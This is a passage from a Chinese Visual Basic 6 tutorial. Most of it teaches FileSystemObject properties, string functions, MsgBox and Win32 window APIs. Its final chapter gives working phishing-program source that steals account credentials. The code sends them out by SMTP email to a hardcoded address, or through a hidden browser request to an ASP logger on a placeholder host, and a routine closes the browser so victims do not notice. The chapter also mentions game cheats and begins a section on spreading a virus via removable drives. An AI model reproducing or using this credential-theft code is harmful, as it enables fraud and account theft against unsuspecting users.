该方法用来返回文件的扩展名，和 GetBaseName 的作用相似。基本形式为 `fso对象名.GetExtensionName(文件路径)`。在这里就不举例说明了。值得注意的是，该方法和 GetParentFolderName 有点相同的地方，就是当路径文件不存在或者文件扩展名不存在时，会返回一个 0 长度的空字符串。

#### 5.2 Folder 对象与 File 对象

Folder 和 File 对象有着许多属性，这些属性也就是我们使用右键查看的属性以及其它的一些属性。因为 Folder 对象和 File 对象有许多共同的属性，所以这里就直接一起列出来，如下表：

| 属性名 | 功能描述 |
|---|---|
| Attributes | 设置或返回文件或文件夹的属性。 |
| ShortPath | 返回路径的短名。 |
| Size | 返回文件大小。如果是文件夹，则返回文件夹中所有的文件和文件夹的总大小。返回的单位为字节。 |

##### 1) Attributes

我们知道，如果要调用某个属性，则语法应该为“对象名.属性”，这里同样为“文件（或文件夹）对象名.Attributes”。如果我们要给文件或文件夹设置属性，则将其看成一个变量，直接在后面加等号和值，所以它的基本形式为“文件（或文件夹）对象名.Attributes [= 新属性值]”。有一些书或其它资料中说，需要判断一个文件或文件夹是否具有某项属性值时，应该把该 Attributes 属性的返回值与下列常数做 And 逻辑运算：

| 常数 | 值 | 描述 |
|---|---:|---|
| Normal | 0 | 一般文件。 |
| ReadOnly | 1 | 只读文件。 |
| Hidden | 2 | 隐藏文件。 |
| System | 4 | 系统文件。 |
| Volume | 8 | 磁盘驱动器卷标。 |
| Directory | 16 | 文件夹或目录。 |
| Archive | 32 | 自上次备份后已经改变的文件。 |
| Alias | 64 | 链接或快捷方式。 |
| Compressed | 128 | 压缩文件。 |


图4

我先给出其它资料中说明的方法：

```vb
Dim fso As Object
Set fso = CreateObject("scripting.filesystemobject")
Dim f As Object
Set f = fso.GetFile("D:\filetest.txt")
```

```vb
If f.Attributes And vbReadOnly Then
    MsgBox "该文件为只读文件！"
End If
```

```vb
Private Sub Form_Load()
Dim fso As Object
Set fso = CreateObject("scripting.filesystemobject")
Dim f As Object
Set f = fso.getfile("D:\filetest.txt")
If f.Attributes And vbReadOnly Then
    MsgBox "该文件为只读文件"
End If
End Sub
```

测试如图5。类似于上述代码；实际上我们可以将“And”改成等号“=”，测试如图6。

为什么这里的“And”等同于“=”呢？

我们观察 Attributes 属性的值，0、1、2、4...不难发现，除了0之外，其它都是2^n（2的N次方，N=0~7）。2^n 都有个特点，就是用二进制表达时，所有位上总共只有一个1。例如4是100，32是100000。而我们使用等号所得到的值也是如此，与其 And 之后所得的结果当然是它本身。所以在这里“And”和“=”是等同的，在其它地方却不一定能互相对换。

```vb
Private Sub Form_Load()
Dim fso As Object
Set fso = CreateObject("scripting.filesystemobject")
Dim f As Object
Set f = fso.getfile("D:\filetest.txt")
If f.Attributes = vbReadOnly Then
    MsgBox "该文件为只读文件"
End If
End Sub
```

其实只要我们在学习的时候多动脑就好了，书上说的东西有时并不详尽，需要自己去思考才能得到答案。有的时候，书上的知识也未必是正确的。上学期期中考试的时候就有人拿着老师发的资料和电脑课本来找我，因为书上和资料上写的不一样，问我哪个是对的。我发现书上居然是错的，所以就告诉全班同学按资料复习就好了，书上是错的。为什么我那么确定呢？还有一点原因就是实践，书上和资料上讲的都有可能，那么我只需要在电脑上试一试就知道了，不是么？

##### 2) ShortPath

ShortPath 属性用来返回文件路径的短名。我们知道，DOS 中的路径是不能有空格的，所以需要用短名来代替。

```vb
Dim fso As Object
Set fso = CreateObject("scripting.filesystemobject")
Dim f As Object
Set f = fso.getfile("D:\e\hack x files.txt")
MsgBox f.ShortPath
```

```vb
Private Sub Form_Load()
Dim fso As Object
Set fso = CreateObject("scripting.filesystemobject")
Dim f As Object
Set f = fso.getfile("D:\e\hack x files.txt")
MsgBox f.ShortPath
End Sub
```

上述代码测试如图7。如果我们只需要文件名的短名，则可以使用 ShortName 属性，用法相同，测试如图8。

```vb
Private Sub Form_Load()
Dim fso As Object
Set fso = CreateObject("scripting.filesystemobject")
Dim f As Object
Set f = fso.getfile("D:\e\hack x files.txt")
MsgBox f.ShortName
End Sub
```

##### 3) Size

此属性返回文件大小，该用的时候用，大家自己看着办吧。

### 第六章 函数

#### 6.1 系统函数

Visual Basic 提供了大量的内部函数供用户在编程的时候调用。内部函数可以分为数学函数、转换函数、字符串函数、日期函数和格式输出函数等。

我在这里只取些简单的字符串函数和常用的几个函数来介绍，因为前面说的类型转换实际上就是转换函数的一部分。

##### 6.1.1 字符串函数

| 函数名 | 说明 | 例子 | 结果 |
|---|---|---|---|
| Left$(C,N) | 取出字符串左边N个字符 | Left$("test",3) | "tes" |
| Right$(C,N) | 取出字符串右边N个字符 | Right$("test",3) | "est" |
| Len(C) | 返回字符串长度 | Len("hackerxfiles") | 12 |
| LTrim$(C) | 去掉字符串左边空格 | LTrim(" 123 ") | "123 " |
| RTrim$(C) | 去掉字符串右边空格 | RTrim(" 123 ") | " 123" |
| Mid$(C,N1,N2) | 从字符串N1位开始取N2个字符 | Mid$("abc",2,1) | "b" |
| InStr([N1,]C1,C2[,N]) | 从C1的N1位开始搜索C2，返回位置，搜不到返回0 | InStr(1,"abcdef","cd") | 3 |

上面介绍的这些函数中，C代表字符串类型的参数，N代表数值型的参数。函数后面带 $ 的意思是函数的返回值是字符串类型的。这些函数对字符串处理都起着很大的作用，这里只是简单地列了几个。

##### 6.1.2 MsgBox

MsgBox 函数是弹窗函数，也就是打开一个信息框，等待用户选择一个按钮。MsgBox 函数返回所选择按钮的整数值，如果不需要返回值，则可以作为一个过程来使用。

MsgBox 过程的基本形式为：

```vb
MsgBox(<提示>[,按钮][,标题])
```

首先“提示”就是信息框中需要显示的内容。信息框的出现都会有一个按钮，如果我们没有设置，默认就是一个“确定”按钮。还有其它的按钮样式，值分别如下：

| 内部常数 | 按钮值描述 |
|---|---|
| vbOKOnly | 0，显示确定按钮 |
| vbOKCancel | 1，显示确定、取消 |
| vbAbortRetryIgnore | 2，显示终止、重试、忽略 |
| vbYesNoCancel | 3，显示是、否、取消 |
| vbYesNo | 4，显示是、否 |
| vbRetryCancel | 5，显示重试、取消 |
| vbCritical | 16，显示关键信息图标（红色 STOP 标志） |
| vbQuestion | 32，显示询问信息图标 |
| vbExclamation | 48，显示警告信息图标 |
| vbInformation | 64，显示信息图标 |
| vbDefaultButton1 | 0，第一个按钮为缺省按钮 |
| vbDefaultButton2 | 256，第二个按钮为缺省按钮 |
| vbDefaultButton3 | 512，第三个按钮为缺省按钮 |
| 应用模式 | 0 |
| 系统模式 | 4096 |

在使用的时候，如果使用了括号，需要将其当函数使用，它会返回一个返回值，我们需要使用一个变量来接受返回值。否则会出现如图1的错误，而一般只弹出信息的话则不需要这样。上面的值分为4组，分别是按钮显示的个数、图标类型、缺省按钮和模式。

举个例子来说，假如有如下代码：

```vb
Private Sub Form_Load()
a = MsgBox("test", 3 + 64, "")
If a = vbCancel Then
    End
End If
End Sub
```

结果如图2。这里因为我们将其看成函数，所以需要用 a 来接受返回值。函数的返回值可能如下：

| 内部常数返回值 | 被按下的按钮 |
|---|---|
| vbOK 1 | 确定 |
| vbCancel 2 | 取消 |
| vbAbort 3 | 终止 |
| vbRetry 4 | 重试 |
| vbIgnore 5 | 忽略 |
| vbYes 6 | 是 |
| vbNo 7 | 否 |

在写代码的过程中，内部常数和对应的值是可以互换的，没有关系。

提示：

- 模式中如果选择了应用模式，必须响应对话框才能继续当前的应用程序。如果选择系统模式，则在用户响应消息框前，所有应用程序都被挂起。
- 上面提到的4组值可以组合使用，可以使用“+”加号将它们连接起来。
- 如果需要多行显示内容，可以使用 vbCrLf 来连接。比如 MsgBox("a" & vbCrLf & "b")，则 b 在 a 的下一行显示。

### 6.2 API函数

Win32 API 即为 Microsoft 32位平台的应用程序编程接口（Application Programming Interface）。所有在 Win32 平台上运行的应用程序都可以调用这些函数。

随着软件技术的不断发展，在 Windows 平台上出现了很多优秀的可视化编程环境，程序员可以采用“所见即所得”的编程方式来开发具有精美用户界面和功能的应用程序。这些可视化编程环境操作简便、界面友好，比如：Visual C++、Delphi、Visual Basic 等等。在这些工具中提供了大量的类库和各种控件，它们替代了 API 的神秘功能。事实上，这些类库和控件都是构筑在 Windows API 的基础上的，但它们使用方便，加速了 Windows 应用程序的开发，所以受到程序员的普遍采用。有了这些类库和控件，程序员们便可以把主要精力放在整体功能的设计上，而不必过于关注具体细节。但是我们还是需要了解 API，因为 API 函数是构筑整个 Windows 框架的基石，只有好好理解它们，才能突破控件和类库的限制，更灵活地设计程序。

在这里，我们可以将 API 函数当成普通的系统函数来使用，只是使用之前，我们需要对其进行一个声明。API 函数的声明使用 Declare 语句，基本形式有两种，分别是：

```vb
[Public | Private] Declare Sub name Lib "Libname" [Alias "aliasname"] [(arglist)]
[Public | Private] Declare Function name Lib "Libname" [Alias "aliasname"] [(arglist)] [As type]
```

其中分别是对 Sub 过程的声明和 Function 函数的声明。

下面是各部分的功能：

- **Public**：用于说明程序的其它所有地方都可以使用该函数。
- **Private**：说明只能在包含该 Declare 声明的窗体或模块中使用该函数。
- **Sub**：表示没有返回值。
- **Function**：表示有返回值。
- **name**：API 的函数名。
- **Lib**：指明此函数所在的动态链接库（DLL）。
- **Libname**：动态链接库的路径。
- **Alias**：表示将被调用的 API 所在动态链接库有另外的名称。当 API 函数名与某个关键字重名时使用此参数；或该动态链接库过程中某个字符不符合动态链接库的命名约定时，也可使用。
- **aliasname**：API 函数的别名。
- **arglist**：表示调用该函数时需要的参数。
- **type**：函数的返回类型。

下面我们来举个例子，在窗体中画一个 TextBox 控件和 Timer 控件，Timer 控件的 Interval 值为1。在窗体中写入如下代码：

```vb
Private Declare Function GetCursorPos Lib "user32" (lpPoint As POINTAPI) As Long

Private Type POINTAPI
    x As Long
    y As Long
End Type

Private Sub Timer1_Timer()
    Dim n As POINTAPI
    a = GetCursorPos(n)
    Text1.Text = "x=" & n.x & " y=" & n.y
End Sub
```

测试如图3。

代码的第一行就是对 GetCursorPos 函数的声明，首先 Private 表明它是私有的，且可以看出它存在于 user32.dll 中。lpPoint 是它的参数，这个参数的类型为 POINTAPI 类型，POINTAPI 这个类型是我们自己定义的，此类型有两个对象（或属性），分别为 x 和 y（代表鼠标所在的坐标位置）。

为什么我知道需要自己声明 POINTAPI 类型的变量呢？事实上，我是通过查询 API 手册得知的。如图4，点击红色的 POINTAPI 后，就会进入到它的说明；按说明的样子写代码即可。

##### 6.2.1 GetWindowText

首先我们查询 API 手册，得到它的一些相关信息：

### VB声明

```vb
Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long
```

### 说明：

取得一个窗体的标题（caption）文字，或者一个控件的内容（在 vb 里使用：使用 vb 窗体或控件的 caption 或 text 属性）。

##### 返回值

Long，复制到 lpString 的字串长度；不包括空终止字符。会设置 GetLastError。

##### 参数表

参数类型及说明：

- **hwnd Long**：欲获取文字的那个窗口的句柄。
- **lpString String**：预定义的一个缓冲区，至少有 cch+1 个字符大小；随同窗口文字载入。
- **cch Long**：lpString 缓冲区的长度。

##### 注解

不能用它从另一个应用程序的编辑控件中获取文字。

我们来依次看 API 手册给出的东西。说明，指明了该函数的用途，此函数就是用来获取标题或者文本的，比如窗体的标题，或者文本框中的文本。返回值，说明该函数返回值的类型，这里是 Long，并且指明了是 lpString 的长度（看清楚，返回值不是内容）。参数表中有三个参数，分别是 Long 类型的句柄和一个 String 类型的变量及 Long 类型的缓冲区长度，我们调用函数的时候依次输入这三个参数即可。至于注解，挺重要的，大家记得看，这里说不能获得另一个应用程序的内容，当然就不能了，如果不相信可以试试。

那么，上面我们说到，这个函数的目的是取得窗体的标题或控件的内容，为什么返回值不是 String 类型而是 Long 呢？我们来看看参数表中，可以看到一个 lpString 的参数，实际上这个 String 类型的变量保存的就是窗体的标题或控件的内容了。而函数返回的 Long 类型值则是截取到的长度，我们来看实例，代码如下：

```vb
Private Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long

Private Sub Command1_Click()
    Dim a As String * 10
    GetWindowText Form1.hwnd, a, 10
    MsgBox GetWindowText(Form1.hwnd, a, 10)
End Sub
```

测试如图5。Form1.hwnd 代表着窗体 Form1 的句柄，所以我们要获取的是 Form1.Caption 这个属性的值。图中显示的窗体标题“Form1”是5个字符，而弹窗弹出来的也是数字5，也就证明返回的是长度。然后我们将代码改成如下：

```vb
Private Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long

Private Sub Command1_Click()
    Dim a As String * 10
    GetWindowText Form1.hwnd, a, 10
    MsgBox GetWindowText(Form1.hwnd, a, 10)
    MsgBox a
End Sub
```

测试如图6，可以看到弹出了窗体的标题。在这里我们为什么需要使用定长的字符串呢，其实我也不知道，在我学习的时候是通过实例知道的。但是后来想了想，在参数说明的时候“至少有 cch+1 个字符大小”这句话，我想就暗示了这个变量是需要定长的吧。顺便给大家说一下，我在这里将 String 的长度设为10是根据我的需要，大家要根据自己的需要修改这个值。假若 Form1.Caption 有10个字符，那么弹窗显示出来的只能是9个字符，还是因为“至少有 cch+1 个字符大小”这句话的原因。如果我们设置的 cch 要小于 Form1.Caption 的长度的话，那么最多能显示 cch 个字符。

##### 6.2.2 FindWindow

FindWindow 这个 API 经常用来制作外挂，所以在这里给大家提一下。我们依旧先查询 API 手册，得到信息如下：

### VB声明

```vb
Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
```

##### 说明

寻找窗口列表中第一个符合指定条件的顶级窗口（在 vb 里使用：FindWindow 最常见的一个用途是获得 ThunderRTMain 类的隐藏窗口的句柄；该类是所有运行中 vb 执行程序的一部分。获得句柄后，可用 API 函数 GetWindowText 取得这个窗口的名称；该名也是应用程序的标题）。

##### 返回值

Long，找到窗口的句柄。如未找到相符窗口，则返回零。会设置 GetLastError。

##### 参数表

参数类型及说明：

- **lpClassName** String，指向包含了窗口类名的空终止（C语言）字符串的指针；或设为零，表示接收任何类。
- **lpWindowName** String，指向包含了窗口文本（或标签）的空终止（C语言）字符串的指针；或设为零，表示接收任何窗口标题。

##### 注解

很少要求同时按类与窗口名搜索。为向自己不准备参数传递一个零，最简便的办法是传递 vbNullString 常数。

该函数经常被外挂制作者用来判断游戏是否运行，代码如下：

```vb
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
```

```vb
Private Sub Form_Load()
    x = FindWindow(vbNullString, "Your Game")
    If x Then
        Call MySub
    Else
        MsgBox "游戏还没开始！"
    End If
End Sub
```

“Your Game”就是游戏程序的标题，MySub 是我们自己编的过程，也就是外挂对游戏处理的部分。这里 `If x Then` 的意思是判断 x 是否为 0，如果用该函数成功地找到一个标题为“Your Game”的程序，会返回这个程序的句柄，所以返回值就不为 0，于是判断成功。否则找不到的话就会返回 0，判断失败，然后弹出游戏还没开始的提示。

值得提醒的是，FindWindow 对 `lpWindowName` 这个参数的要求很精确。比如说程序的标题为 `hackerxfiles`，而你写成 `FindWindow(vbNullString, "hacker")` 是搜索不到的。但是它对大小写没有区分。

##### 6.2.3 PostMessage

PostMessage 用来发送消息。我们知道，Windows 操作系统采用的是消息机制，也就是说，我们每处理一个事都需要一个消息。这就好像军训的时候想撒尿都要和教官报到一样，教官得到信息后，然后决定是否同意你脱裤子撒尿。PostMessage 就像是一个小教官，他可以发送命令让你罚站，也可以叫你回宿舍休息。我们来看看 API 手册中的信息：

### VB声明

```vb
Declare Function PostMessage& Lib "user32" Alias "PostMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any)

Declare Function PostMessageByNum& Lib "user32" Alias "PostMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, ByVal lParam As Long)

Declare Function PostMessageByString& Lib "user32" Alias "PostMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, ByVal lParam As String)
```

##### 说明

将一条消息投递到指定窗口的消息队列。投递的消息会在 Windows 事件处理过程中得到处理。在那个时候，会随同投递的消息调用指定窗口的窗口函数。特别适合那些不需要立即处理的窗口消息的发送。

##### 返回值

Long，如消息投递成功，则返回 TRUE（非零）。会设置 GetLastError。

##### 参数表

| 参数 | 类型及说明 |
|---|---|
| hwnd | Long，接收消息的那个窗口的句柄。如设为 `HWND_BROADCAST`，表示投递给系统中的所有顶级窗口。如设为零，表示投递一条线程消息（参考 PostThreadMessage）。 |
| wMsg | Long，消息标识符。 |
| wParam | Long，具体由消息决定。 |
| lParam | Any，具体由消息决定。 |

这里声明介绍了三个函数的声明，效果是一样的，主要是在 lParam 消息上有点小小不同。一般我们使用 PostMessage 就可以了。下面来举个大家常见的例子。以前我经常和同学去网吧上网，但是网吧会有些限制，那些限制我都不是很在意，毕竟不影响我。最主要的是，在一些网吧中，如果你打开黑客网站或者黑客程序，几秒之后就会被关掉。这是为什么？因为网吧安装的程序会判断你正在运行的程序的标题，如果存在非法关键字，它就会对系统发送个消息关掉你的程序。下面我们就来模拟一下，代码如下：

```vb
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
Private Declare Function PostMessage& Lib "user32" Alias "PostMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any)
Private Const WM_CLOSE = &H10

Private Sub Form_Load()
    Dim x As Long
    x = FindWindow(vbNullString, "木马")
    If x Then
        Call wgsub
        PostMessage x, WM_CLOSE, 0, vbNullString
    Else
        MsgBox "游戏还没开始！"
    End If
End Sub
```

大家运行一个标题为木马的程序，再运行此程序，会发现标题为木马的程序会被立即关掉。当然，这个只是告诉大家原理，网吧安装的那种程序不是这样的。那种程序一般是循环遍历你正在运行的程序，获取它们的标题，然后判断，如果其中存在非法关键字，就关掉标题存在非法关键字的那个程序。或者直接判断前台窗口的标题是否存在非法关键字，然后决定是否要关掉。但是关掉的 PostMessage 函数是相同的原理。

- 提示：这里需要注意声明的时候 PostMessage 后面有个“&”，否则会出现“DLL 调用约定错误”的提示。

##### 6.2.4 GetForegroundWindow

GetForegroundWindow 函数就是用来获取前台窗口句柄的函数。前台窗口，指的是正在活动的窗口。我们经常使用电脑，不难发现，在两个程序中切换的时候，总有一个程序的标题是最亮的，然后其它的程序标题栏都是暗的，标题栏亮着的程序窗口就是前台窗口。我们来看看 API 手册中的信息：

### VB声明

```vb
Declare Function GetForegroundWindow Lib "user32" Alias "GetForegroundWindow" () As Long
```

##### 说明

获得前台窗口的句柄。这里的“前台窗口”是指前台应用程序的活动窗口。

##### 返回值

Long，前台窗口的句柄。

##### 注解

Windows NT 支持多个桌面，它们相互间是独立的。每个桌面都有自己的前台窗口。

说明很短对吧，那么我们直接来实战。还是根据前面说到的网吧的非法关键字问题，我们来做一个判断前台窗口是否存在非法关键字，如果存在的话就关闭的程序。这里非法关键字我们设置为“木马”。代码如下：

```vb
Private Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long
Private Declare Function GetForegroundWindow Lib "user32" () As Long
Private Declare Function PostMessage& Lib "user32" Alias "PostMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any)
Private Const WM_CLOSE = &H10

Private Sub Timer1_Timer()
    Dim Thwnd As Long
    Dim Tcaption As String * 100
    Thwnd = GetForegroundWindow
    x = GetWindowText(Thwnd, Tcaption, 100)
    If InStr(1, Tcaption, "木马") Then
        PostMessage Thwnd, WM_CLOSE, 0, vbNullString
    End If
End Sub
```

上述代码中，我们用到了一个 Timer 控件来进行循环，Timer 控件的 Interval 值设为 1。这个程序运行后，只要前台窗口的标题存在“木马”两个字就会被立即关掉。上面使用到的 3 个 API 中两个都学过了，通过这个例子后，相信大家也能了解 GetForegroundWindow 的作用。分析一下整个程序，也就是先获取前台窗口的句柄，然后使用 GetWindowText 函数来得到前台窗口的标题，InStr 函数用来判断获取的标题中是否存在“木马”二字，如果存在的话就调用 PostMessage 来将其关闭。看，那种看起来很神秘的东西也不是很难理解吧。

API 函数总的来说也不是非常难，我们学习的时候主要是要学习各 API 的作用，可以通过查询 API 手册获取函数的信息。学习 API 的时候，最好是通过实例来学习，因为有时候我们单看 API 的说明是不能完全知道这个 API 是怎么用的。只有通过别人的代码实例，才能更好地学习和理解它们。

API 的使用需要注意的是：函数的声明必须完整，比如说上面提到的 PostMessage 的声明，后面的“&”不能少。其次是返回值的问题。如果函数需要一个返回值，那么写参数的时候就需要用括号括起来，比如 GetWindowText 函数。如果函数不需要返回值，我们将其当一个 Sub 过程来使用的话，那么参数就不用加括号括起来，比如 PostMessage 函数。

### 第七章 黑客程序小讲

#### 7.1 钓鱼程序

网络钓鱼（Phishing）一词，是“Fishing”和“Phone”的综合体，是常见的网络诈骗行为。该词嫁接了 fishing 和 phone。该词起源于 1996 年左右，黑客起初利用电子邮件作为诱饵，盗用美国在线的账号和密码，后来鉴于最早的黑客是用电话线作案，所以黑客们常常用 Ph 来取代 f，就形成了今天的 Phishing 一词。

那么什么又是钓鱼程序？事实上，钓鱼程序和真正的钓鱼一样，服从一个“愿者上钩”的原则：一般的钓鱼程序有两种。一种是伪界面的程序，就是我们见的许多 QQ 盗号木马，它们设计界面，让你以为是真的 QQ，等你输入账号密码。还有一种是利用人们的心理，比如那些刷 QB、刷钻的，让人们自愿输入密码，却没点实际效果，不过用户为了占这点小便宜，自然会将自己的用户密码输入到文本框中。也有很多的钓鱼网站啊，钓人家的 Q 号、银行账号，各种都有。总之，钓鱼呢，是最简单的一个活（其实每个活都不简单），却也是个挺有效的活儿。虽然当前钓鱼比较流行的是用网页形式的啊，毕竟现在是 WEB 的时代嘛，但是我们可以从钓鱼软件中就知道这门技术的关键。

那么，钓鱼程序最关键的地方是什么？就是收信。收信常见的也有两种方法，一种是通过邮箱，另一种是空间收信。邮箱的话主要是用到 SMTP（简易邮件）协议，可以很轻松地发送邮件，比较方便（确实比你后台操作网页元素方便吧）。空间收信的话有 ASP 收信、PHP 收信还有……其实原理都是一样的。钓鱼程序其实很简单，最简单的模型就是两个文本框和一个按钮。文本框用于接受用户的账号和密码。如果单是做一个刷钻工具的话，那么界面我们就不是很讲究；如果是作为仿界面登录器的话，界面就需要好好设计了，在此我们忽略界面这种东西直接说如何得到用户的账号和密码。

##### 7.1.1 邮件收信方式

**前置知识：**

SMTP 协议：SMTP（Simple Mail Transfer Protocol）简单邮件传输协议是一种提供可靠且有效电子邮件传输的协议。SMTP 是建模在 FTP 文件传输服务上的一种邮件服务，主要用于传输系统之间的邮件信息并提供来信有关的通知。SMTP 独立于特定的传输子系统，且只需要可靠有序的数据流信道支持。SMTP 重要特性之一是其能够跨越网络传输邮件，即“SMTP 邮件中继”。通常，一个网络可以由公用互联网、TCP 可相互访问的主机、防火墙分隔的 TCP/IP 网络上 TCP 可相互访问的主机，及其它 LAN/WAN 中的主机利用非 TCP 传输层协议组成。使用 SMTP，可实现相同网络上处理机之间的邮件传输，也可通过中继器或网关实现某处理机与其它网络之间的邮件传输。在这种方式下，邮件的发送可能经过从发送端到接收端路径上的大量中间中继器或网关主机。域名服务系统（DNS）的邮件交换服务器可以用来识别出传输邮件的下一跳 IP 地址。

### 程序实例：

```vb
窗体代码
此实例需要一个 SMTP 的 DLL 组件
引用 SMTP 的 DLL 组件

Private Declare Function SendMail Lib "smtp.dll" (ByVal StrSmtpServer As String, ByVal StrUser As String, ByVal StrPass As String, ByVal StrMailFrom As String, ByVal StrMailTo As String, ByVal StrSubject As String, ByVal StrBodyMsg As String) As Long

Private Declare Function GetSmtpError Lib "smtp.dll" (ByVal StrErrMsg As String) As Long

Private Sub Command1_Click()
    Mserver = "smtp.qq.com"    '服务器地址
    Muser = "user"             '账号
    Mpwd = "password"          '密码
    Mfrom = "user@qq.com"      '发件人
    Mto = "928960522@qq.com"   '收件人
    Mtitle = "上钩的鱼"         '标题
    Mtext = "账号:" & Text1.Text & vbCrLf & "密码:" & Text2.Text  '内容

    If SendMail(Mserver, Muser, Mpwd, Mfrom, Mto, Mtitle, Mtext) Then
        MsgBox "邮件发送成功", vbInformation
    Else
        StrErrMsg = Space(100)  '填充缓冲区 这句是必须的 不要遗漏
        GetSmtpError StrErrMsg
        MsgBox StrErrMsg, vbInformation, "邮件发送失败"
    End If
End Sub
```

### 程序分析：

当用户把账号和密码输入完毕后，点击按钮才是重要的内容。我们在按钮的 Click 事件中写代码来处理用户的密码。在公共声明部分，我们首先对需要使用的两个函数进行声明，它们都来自 SMTP.DLL 中。服务器地址根据你邮箱所使用的服务器而定，我使用的是 QQ 邮箱，所以是 smtp.qq.com，或者你可以使用 163 网易邮箱，则服务器地址是 smtp.163.com。然后后面的内容大家看着情况填。后面的 If 判断语句对邮件发送进行了一个判断，如果执行成功，返回真值，弹出提示框。否则提示邮件发送失败。而我们在实际做的钓鱼程序中，并不需要判断邮件发送失败的原因，只需要在测试中用到。也就是说，我们在实际做钓鱼程序的时候，可以把对 GetSmtpError 的函数声明给省掉，而 Else 中的代码改成需要的东西，比如弹个窗口提示“点卡充值失败，请检查网络连接”（这个见得多了吧）。

提示：这里我们把 smtp.dll 下载来之后放到程序的目录下。如果 smtp.dll 不在程序目录下的话，引用的时候应该写上完整的路径。

##### 7.1.2 空间收信方式

我们还有另一种方式可以获取钓到的东西，这也是很多盗号程序推荐使用的方法（也许是因为稳定性强的原因）。这个方式就是使用空间收信。就是说，我们将所获取的信息直接保存在我们自己的空间（网站）里，这个方式便于查看，也便于共享。这里我们使用免费空间就可以了，毕竟为了盗号这种事就去买一个空间也太浪费钱了。至于免费空间哪里找，黑 X 杂志上经常有介绍，我在此就不说了，我已经很久没用免费空间这种东西了，目前国内的都不太稳定，或者申请手续比较麻烦，推荐大家使用国外的免费空间。一般来说，我们申请空间的时候，它会送你一个二级域名，记下这个域名，我们到后面会用到的。

这里我用的是 ASP 的空间，我们需要写一个名为 test.asp 的 ASP 文件，然后传到空间上。VB 窗体上分别画两个文本框、一个 Timer 控件，Timer 控件的 Interval 属性设置为 1000。画一个按钮，按钮的 Caption 属性设置为“发送”。

### ASP代码：

```asp
<%
strLogFile="test.txt"

Name=request("Name")
Pass=request("Pass")
IP=request("IP")

if Name="" or Pass="" then
  response.write " "
  response.end
End If
StrLogText=StrLogText&Name&"----"&Pass&"---IP:"&IP&"("&request.servervariables("REMOTE_HOST")
StrLogText=StrLogText&")----"&date&" "&time

set f=Server.CreateObject("scripting.filesystemobject")
set ff=f.opentextfile(server.mappath(".")&"\"&strLogFile,8,true,0)
ff.writeline(chr(13)+chr(10)&StrLogText)
ff.close
set ff=nothing
set f=nothing

response.write " "
%>
```

### VB窗体代码：

```vb
Private Sub Command1_Click()
    Dim uName As String
    Dim pwd As String
    uName = Text1.Text
    pwd = Text2.Text
    Shell "C:\Program Files\Internet Explorer\IEXPLORE.EXE http://www.xxx.com/test.asp?name=" + uName + "&pass=" + pwd, vbHide
    Timer1.Enabled = True
End Sub

Private Sub Timer1_Timer()
    EnumWindows AddressOf KILLIE, ByVal 0&
    Timer1.Enabled = False
End Sub
```

### VB模块代码：

```vb
Option Explicit '强制声明变量

'声明API
Public Declare Function PostMessage Lib "user32" Alias "PostMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
Public Declare Function GetClassName Lib "user32" Alias "GetClassNameA" (ByVal hwnd As Long, ByVal lpClassName As String, ByVal nMaxCount As Long) As Long
Declare Function EnumWindows Lib "user32" (ByVal lpEnumFunc As Long, ByVal lParam As Long) As Boolean
Public Const WM_CLOSE = &H10

'关闭IE函数
Public Function KILLIE(ByVal hwnd As Long, ByVal lParam As Long) As Boolean
    Dim classname As String
    Dim str5 As String
    Dim len5 As Long
    Dim t As Long

    str5 = String(255, 0)
```

```vb
len5 = 256
GetClassName hwnd, str5, 256
MsgBox InStr(1, str5, Chr(0))

classname = Left(str5, InStr(1, str5, Chr(0)) - 1)

' 如果是IE窗口就关闭
If classname = "IEFrame" Then
    PostMessage hwnd, WM_CLOSE, 0&, 0&
End If

KILLIE = True

End Function
```

### ASP分析

request是“请求”的英文，这里就是把接收到的请求内容保存到变量中。比如IE地址栏中输入“http://www.xxx.com/test.asp?site=hackerxfiles.net”，那么我们用`site=request("site")`语句就可以将黑X的地址保存在site变量中了。这里我们也创建了一个FSO对象来写入文件，保存账号和密码。

### VB代码分析

这里我们创建一个模块，用于保存需要使用到的API函数声明和KILLIE函数。KILLIE函数用来在打开IE之后帮助关闭IE，否则会被用户发现自己的账号被盗。在用户点击“登录”按钮之后用shell命令，启动IE并帮助我们打开指定网页，再启动Timer控件调用KILLIE函数。之所以需要用到Timer控件，是因为直接将调用KILLIE函数的语句放在`Command1_Click()`中的话，IE虽然已经启动，但是网页并没有加载完全，所以ASP代码没有能够执行成功，我们也就得不到用户的账号密码。至于Timer的Interval的值，我在这里设置为1000，当然设置为其他也可以，只要大家在调试的时候能够收到账号密码即可。

#### 7.2 病毒的移动设备传播

病毒不是死的，作为一个好的病毒，一般都需要具有传播能力。因为病毒的特征是具有破坏性、复制性和传染性。在这里我们所说的是传染性中的一个小部分。现在我们需要实现的是将病毒本身（virus.exe）复制到移动设备中。

##### 前置知识

